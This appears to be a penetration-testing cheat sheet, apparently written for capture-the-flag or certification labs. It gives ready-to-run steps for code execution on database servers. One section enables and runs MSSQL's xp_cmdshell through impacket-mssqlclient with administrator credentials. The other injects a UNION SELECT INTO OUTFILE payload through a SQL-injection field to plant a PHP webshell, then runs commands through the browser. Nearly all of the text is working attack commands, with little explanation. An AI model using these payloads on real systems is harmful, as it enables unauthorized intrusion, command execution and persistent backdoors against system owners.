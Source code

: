 ## **Manual Code Execution - MSSQL
Enable code execution in using `xp_cmdshell`: 
1. Login as administrator: `impacket-mssqlclient administrator:password@target.ip.address.here -windows-auth`
2. Enable xp_cmdshell (disabled by default): `EXECUTE sp_configure 'show advanced options', 1;` (then run `RECONFIGURE` to install)
3. Run xp_cmdshell: `EXECUTE sp_configure 'xp_cmdshell', 1;`  (then run `RECONFIGURE` to install)
4. Test xp_cmdshell: `EXECUTE xp_cmdshell 'whoami';`

## **Manual Code Execution - MYSQL**
In a SQLi vulnerable browser field;
- Create webshell.php (with `<?php system($_GET['cmd']);?>`) in a writeable web folder: `' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //`
- Inject commands through in browser address bar: `target.ip.address.here/tmp/webshell.php?cmd=cat%20flag.txt`
